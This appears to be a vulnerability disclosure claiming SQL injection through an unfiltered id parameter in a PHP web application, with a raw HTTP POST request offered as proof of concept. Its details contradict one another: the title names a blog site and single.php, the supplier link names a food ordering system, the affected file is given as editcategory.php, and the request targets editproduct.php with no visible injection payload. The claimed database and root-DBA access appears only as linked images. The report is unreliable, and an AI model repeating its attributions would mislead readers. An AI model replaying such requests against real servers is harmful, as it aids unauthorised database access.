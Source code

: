 # Responsive Blog Site has sql injection in single.php

## supplier 
https://code-projects.org/simple-food-ordering-system-in-php-with-source-code/
## Vulnerability file
editcategory.php

## describe

**Code analysis**   

In the editcategory.php file of Responsive Blog Site, the id parameter is obtained, and the SQL statement is concatenated to the SQL statement without filtering the execution, resulting in SQL injection vulnerabilities and server permissions

![image-2025](https://github.com/asd1238525/cve/blob/main/4a16838e-63e2-431f-b49e-e5f841e01c65.png)


## POC

```

POST /foodorder/ordersimple/editproduct.php?product=21 HTTP/1.1
Host: 127.0.0.1:8083
Content-Length: 488
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8083
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7hViVya87JW51fg4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8083/foodorder/ordersimple/product.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary7hViVya87JW51fg4
Content-Disposition: form-data; name="pname"

Eggs in a Basket
------WebKitFormBoundary7hViVya87JW51fg4
Content-Disposition: form-data; name="category"

4
------WebKitFormBoundary7hViVya87JW51fg4
Content-Disposition: form-data; name="price"

375
------WebKitFormBoundary7hViVya87JW51fg4
Content-Disposition: form-data; name="photo"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary7hViVya87JW51fg4--

```

**Result**
![image-2025](https://github.com/asd1238525/cve/blob/main/db858f8b-0474-4d18-9423-6dbe233ecbd3.png)
Get databases and is-rootdba
![image-2025](https://github.com/asd1238525/cve/blob/main/4f06521e-3cd6-4722-abae-a6c862a84b13.png)
